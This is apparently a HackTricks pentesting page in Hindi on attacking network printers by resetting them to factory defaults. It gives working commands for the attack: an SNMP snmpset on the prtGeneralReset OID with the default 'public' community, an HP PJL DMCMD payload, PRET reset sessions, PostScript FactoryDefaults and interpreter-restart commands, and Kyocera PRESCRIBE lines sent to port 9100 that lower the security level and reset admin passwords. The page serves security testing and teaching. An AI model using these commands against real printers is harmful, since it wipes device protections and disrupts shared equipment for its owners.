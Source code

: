 <details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>


**डिवाइस को फैक्टरी डिफॉल्ट्स में रीसेट करना** एक सुरक्षा-महत्वपूर्ण कार्यक्षमता है क्योंकि यह **सुरक्षा तंत्रों को अधिलेखित करता है** जैसे कि उपयोगकर्ता-निर्धारित पासवर्ड। यह आमतौर पर प्रिंटर के **कंट्रोल पैनल** पर एक **विशेष कुंजी संयोजन** दबाकर किया जा सकता है। इस तरह का एक ठंडा रीसेट केवल कुछ सेकंड में हो जाता है और इसलिए यह स्थानीय हमलावरों या पेनटेस्टर्स के लिए एक वास्तविक परिदृश्य है, जो उदाहरण के लिए दोपहर के भोजन के समय कॉपी रूम में चुपके से प्रवेश कर सकते हैं। हालांकि, **डिवाइस तक भौतिक पहुंच** हमेशा एक विकल्प **नहीं होती है**।

### SNMP

Printer-MIB **prtGeneralReset** ऑब्जेक्ट को परिभाषित करता है (**OID 1.3.6.1.2.1.43.5.1.1.3.1**) जो एक हमलावर को डिवाइस को पुनः आरंभ करने (powerCycleReset(4)), NVRAM सेटिंग्स को रीसेट करने (resetToNVRAM(5)) या फैक्टरी डिफॉल्ट्स को पुनःस्थापित करने (resetToFactoryDefaults(6)) की अनुमति देता है SNMP का उपयोग करके। यह सुविधा/हमला **बड़ी विविधता के प्रिंटरों द्वारा समर्थित है** और यह सभी सुरक्षा तंत्रों को हटा देता है जैसे कि एम्बेडेड वेब सर्वर के लिए उपयोगकर्ता-निर्धारित पासवर्ड। जबकि सुरक्षा तंत्रों को कुशलतापूर्वक बायपास किया जा सकता है, इस दृष्टिकोण की एक व्यावहारिक कमी यह है कि सभी **स्थिर IP पता कॉन्फ़िगरेशन खो जाएगा**। **यदि कोई DHCP** सेवा उपलब्ध नहीं है, तो हमलावर डिवाइस को फैक्टरी डिफॉल्ट्स में रीसेट करने के बाद उससे **फिर से जुड़** नहीं पाएगा।

**डिवाइस को फैक्टरी डिफॉल्ट में रीसेट करना** नीचे दिखाए गए `snmpset` कमांड का उपयोग करके पूरा किया जा सकता है (आपको **कम्युनिटी स्ट्रिंग** को जानने की आवश्यकता है, जो ज्यादातर मामलों में डिफॉल्ट `public` होती है):
```bash
snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
```
### [PML](./#pml)/[PJL](./#pjl)

कई परिदृश्यों में एक हमलावर के पास फ़ायरवॉल के कारण या अज्ञात SNMP समुदाय स्ट्रिंग्स के कारण SNMP अनुरोध करने की क्षमता नहीं होती है। हालांकि, **HP उपकरणों** पर, **SNMP** को इसके **PML प्रतिनिधित्व** में बदला जा सकता है और अनुरोध को एक वैध प्रिंट जॉब के भीतर एम्बेड किया जा सकता है। यह एक हमलावर को नीचे दिखाए गए अनुसार साधारण प्रिंट जॉब्स के भीतर **उपकरण को पुनः आरंभ करने और/या फैक्टरी डिफॉल्ट्स में रीसेट करने** की अनुमति देता है:
```bash
@PJL DMCMD ASCIIHEX="040006020501010301040106"
```
कोई भी इस हमले को HP प्रिंटर्स पर दोहरा सकता है, डिवाइस को पुनः आरंभ करना या रीसेट करना [**PRET**](https://github.com/RUB-NDS/PRET) का उपयोग करके आसानी से किया जा सकता है:
```bash
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PostScript

PostScript एक समान सुविधा प्रदान करता है: **FactoryDefaults** सिस्टम पैरामीटर, 'एक झंडा जो, अगर **सच के लिए सेट किया गया है** **प्रिंटर को बंद करने से ठीक पहले**, तो सभी गैर-वाष्पशील पैरामीटर्स अगले पावर-ऑन पर उनके **फैक्टरी डिफॉल्ट** मानों पर वापस आ जाते हैं।' यह ध्यान देना चाहिए कि **PostScript** स्वयं भी अपने **वातावरण** को **पुनः आरंभ** करने की क्षमता रखता है लेकिन इसके लिए एक **मान्य पासवर्ड** की आवश्यकता होती है। \
हालांकि, PostScript इंटरप्रेटर को [दस्तावेज़ प्रसंस्करण](http://hacking-printers.net/wiki/index.php/Document\_processing) DoS हमलों में चर्चा की गई **अनंत लूप** में डाला जा सकता है जो उपयोगकर्ता को डिवाइस को **मैन्युअल रूप से पुनः आरंभ** करने के लिए मजबूर करता है और इस प्रकार PostScript पासवर्ड को रीसेट करता है।

PostScript सिस्टम पैरामीटर्स को फैक्टरी डिफॉल्ट्स पर रीसेट करें:
```bash
<< /FactoryDefaults true >> setsystemparams
```
PostScript इंटरप्रेटर और वर्चुअल मेमोरी को पुनः आरंभ करें:
```bash
true 0 startjob systemdict /quit get exec
```
कोई भी व्यक्ति प्रिंटर के PostScript इंटरप्रेटर को पुनः आरंभ या रीसेट कर सकता है जिसे **आसानी से दोहराया जा सकता है** [**PRET**](https://github.com/RUB-NDS/PRET) का उपयोग करके:
```bash
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PRESCRIBE

**Kyocera उपकरणों** के लिए, **PRESCRIBE पेज** विवरण भाषाओं का उपयोग **उपकरण को** सामान्य प्रिंट जॉब्स के भीतर से फैक्टरी डिफॉल्ट में रीसेट करने के लिए नीचे दिखाए गए कमांड्स का उपयोग करके किया जा सकता है:
```bash
!R! KSUS "AUIO", "CUSTOM:Admin Password = 'admin00'";  CMMT "Drop the security level, reset password";
!R! ACNT "REST";                                       CMMT "Reset account code admin password";
!R! EGRE;                                              CMMT "Reset the engine board to factory defaults";
!R! SIOP0,"RESET:0";                                   CMMT "Reset configuration settings";
```
इस हमले को दोहराने के लिए प्रिंटर के 9100/tcp पोर्ट पर एक कच्चा नेटवर्क कनेक्शन खोलें और **ऊपर दिए गए आदेशों को भेजें**।


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
